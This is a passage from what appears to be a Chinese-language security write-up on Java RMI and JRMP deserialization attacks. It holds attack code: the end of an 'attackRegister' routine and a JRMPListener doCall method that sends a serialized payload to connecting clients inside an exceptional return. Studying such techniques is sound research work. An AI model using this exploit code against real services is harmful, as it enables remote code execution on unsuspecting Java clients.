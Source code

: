 ```java
    }

    public static void main(String[] args) throws Exception {
        attackRegister();
    }
}
```

##### 异常处理(JRMP协议)

在客户端的`sun.rmi.transport.StreamRemoteCall#executeCall`控制一手var1，就可以了。

![image-20220503145939667](https://img.dem0dem0.top/images/image-20220503145939667.png)

`JRMPListener`利用就是这里的问题，

```java
 private void doCall ( DataInputStream in, DataOutputStream out, Object payload ) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(in) {

            @Override
            protected Class<?> resolveClass ( ObjectStreamClass desc ) throws IOException, ClassNotFoundException {
                if ( "[Ljava.rmi.server.ObjID;".equals(desc.getName())) {
                    return ObjID[].class;
                } else if ("java.rmi.server.ObjID".equals(desc.getName())) {
                    return ObjID.class;
                } else if ( "java.rmi.server.UID".equals(desc.getName())) {
                    return UID.class;
                }
                throw new IOException("Not allowed to read object");
            }
        };

        ObjID read;
        try {
            read = ObjID.read(ois);
        }
        catch ( java.io.IOException e ) {
            throw new MarshalException("unable to read objID", e);
        }


        if ( read.hashCode() == 2 ) {
            ois.readInt(); // method
            ois.readLong(); // hash
            System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
        }

        System.err.println("Sending return with payload for obj " + read);

        out.writeByte(TransportConstants.Return);// transport op ==> 81
        ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);

        oos.writeByte(TransportConstants.ExceptionalReturn); // transport var1 ==> 2
        new UID().write(oos);

        BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
        Reflections.setFieldValue(ex, "val", payload);
        oos.writeObject(ex);

        oos.flush();
        out.flush();
```